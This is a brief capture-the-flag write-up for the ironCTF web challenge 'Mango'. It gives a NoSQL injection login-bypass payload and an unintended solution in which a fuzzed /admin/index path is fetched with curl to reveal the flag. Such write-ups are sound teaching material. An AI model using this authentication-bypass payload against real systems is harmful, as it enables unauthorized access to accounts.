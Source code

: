 ### Mango

Mangoes are good for health! do you know what else are good for health? well, check my website about nutritious fruits!

**Author**: `Vigneswar`

[Mango 🥭](https://mango.1nf1n1ty.team/)

![10](./10.png)

We see a potential NoSQL injection vulnerability, we can exploit the vulnerability by passing in the payload: `username[$eq]=admin&password[$ne]=1`.

[NoSQL injection | HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

But, there was anther wild way to do this in an unintentional way. Just by visiting `/admin/index` we get the flag. `FFUF` to the rescue.

```bash
└─$ curl https://mango.1nf1n1ty.team/admin/index
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Admin Index</title>
<link rel="stylesheet" href="/styles.css">
</head>
<body>
<div class="admin-container">
<h1>Admin Panel</h1>
<p>Here is the flag: <strong>
ironCTF{I_Said_M@nG0_N0t_M0ngo!}
```
